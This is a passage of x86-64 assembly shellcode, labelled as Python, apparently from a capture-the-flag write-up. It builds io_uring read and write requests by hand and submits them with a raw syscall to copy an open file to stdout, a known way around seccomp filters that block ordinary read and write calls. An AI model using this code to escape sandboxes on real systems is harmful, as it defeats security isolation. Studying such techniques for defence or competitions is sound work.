    ```py
   
   		xor rax,rax
   		mov dword ptr [rdi+28],eax
   
   
   		/* read */
   		lea rdi,[rbp-0x380]
   		call io_uring_get_sqe
   
   		mov rsi,rax
   
   		mov rdx,4
   		lea rcx,[rbp-0x60]
   		mov r8,0x50
   		xor r9,r9
   		mov rdi,22
   		call io_uring_prep_rw
   
   
   		/* write */
   		lea rdi,[rbp-0x380]
   		call io_uring_get_sqe
   
   		mov rsi,rax
   		mov rdx,1
   		lea rcx,[rbp-0x60]
   		mov r8,0x50
   		xor r9,r9
   		mov rdi,23
   		call io_uring_prep_rw
   
   		mov edi,dword ptr [rbp-0x380 + 196]
   		mov esi,dword ptr [rbp-0x380+64]
   		xor rdx,rdx
   		xor r10,r10
   		xor r8,r8
   		mov r9,8
   		mov rax,426
   		syscall
   
   		while:
   		jmp while
   
   		io_uring_prep_rw:
   		xor rbx,rbx
   		mov byte ptr [rsi],dil
   		mov byte ptr [rsi+1],bl
   		mov word ptr [rsi+2],bx
   		mov dword ptr [rsi+4],edx
   		mov [rsi+8],r9
   		mov [rsi+16],rcx
   		mov dword ptr [rsi+24],r8d
   		mov dword ptr [rsi+28],ebx
   		mov [rsi+32],rbx
   		mov word ptr [rsi+40],bx
   		mov word ptr [rsi+42],bx
   		mov dword ptr [rsi+44],ebx
   		mov qword ptr [rsi+56],rbx
   		mov rbx,[rsi+56]
   		mov [rsi+48],rbx
   		ret
   
   
   ```